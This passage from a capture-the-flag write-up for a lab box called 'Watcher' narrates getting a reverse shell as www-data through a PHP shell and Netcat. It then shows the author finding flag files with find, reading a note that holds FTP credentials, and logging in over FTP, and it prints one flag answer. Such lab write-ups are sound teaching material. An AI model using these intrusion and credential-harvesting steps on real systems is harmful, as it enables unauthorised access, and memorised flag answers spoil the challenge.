 ## Shell as www-data

To exploit this and gain initial access, I used the PHP shell to obtain a reverse shell and captured it using Netcat. I then switched to Penelope for a more comfortable shell environment. From there, I retrieved the first flag:
```bash
www-data@watcher:/var/www/html$ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@watcher:/var/www/html$ cat flag_1.txt 
  FLAG{r[removed]t}
```

Since the first flag's filename contained a number, I assumed I could find more flags by using the `find` command:
```bash
www-data@watcher:/$ find / -type f -name "flag_*" 2>/dev/null
  /home/mat/flag_5.txt
  /home/ftpuser/ftp/flag_2.txt
  /home/will/flag_6.txt
  /home/toby/flag_4.txt
  /var/www/html/more_secrets_a9f10a/flag_3.txt
  /var/www/html/flag_1.txt
```

Since I had an idea of where the flags were, I continued enumerating the directories. I found an interesting note containing ftp credentials and successfully received the second flag:
```bash
www-data@watcher:/var/www/html$ cat secret_file_do_not_read.txt 
  Hi Mat,

  The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

  Will

  ----------

  ftpuser:g[removed]7

kali@kali:~/ctf/watcher$ ftp ftpuser@10.10.115.29
  Connected to 10.10.115.29.
  220 (vsFTPd 3.0.3)
  331 Please specify the password.
  Password: 
  230 Login successful.
  
  ftp> ls
  drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
  -rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt

kali@kali:~/ctf/watcher$ cat flag_2.txt                             
  FLAG{f[removed]e}

www-data@watcher:/var/www/html/more_secrets_a9f10a$ cat flag_3.txt 
  FLAG{lfi_what_a_guy}
```
